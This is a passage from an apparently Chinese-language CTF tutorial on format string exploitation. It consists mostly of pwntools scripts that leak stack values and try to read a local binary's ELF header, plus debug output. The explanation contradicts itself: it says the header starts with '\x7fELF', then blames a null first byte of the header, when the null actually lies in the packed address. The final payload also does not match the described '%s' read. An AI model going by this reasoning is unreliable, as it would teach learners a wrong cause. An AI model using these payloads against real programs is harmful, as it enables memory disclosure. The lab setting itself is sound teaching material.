 ```python
from pwn import *

context.log_level = 'debug'

p = process('./vuln')

payload = p32(0x41424344)
payload += b'|%6$p'

p.sendline(payload)

p.interactive()
```

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 92046
[...]
[DEBUG] Received 0xf bytes:
    b'DCBA|0x41424344'
```

很好，它有效。

现在我们可以把 ELF 文件的基地址写入栈中，然后用 `%s` 读取它。如果一切正常，它应该
能读取到文件头的第一个字节，且该字节始终为 `\x7fELF` 。

使用 `checksec` 发现二进制文件的基地址是 `0x8048000`，我们可以用它替换 `0x41424344`
并用 `%s` 读取它：

```python
from pwn import *

context.log_level = 'debug'

p = process('./vuln')

payload = p32(0x8048000)
payload += b'|%6$s'

p.sendline(payload)

p.interactive()
```

它不起作用。原因是 `printf` 在遇到空字节 `\x00` 时会停止读取，而 ELF 头部的
第一个字节正好就是空字节。因此我们必须把格式化占位符放在第一位。

```python
from pwn import *

context.log_level = 'debug'

p = process('./vuln')

payload = b'%8$p||||'
payload += p32(0x8048000)

p.sendline(payload)

p.interactive()
```

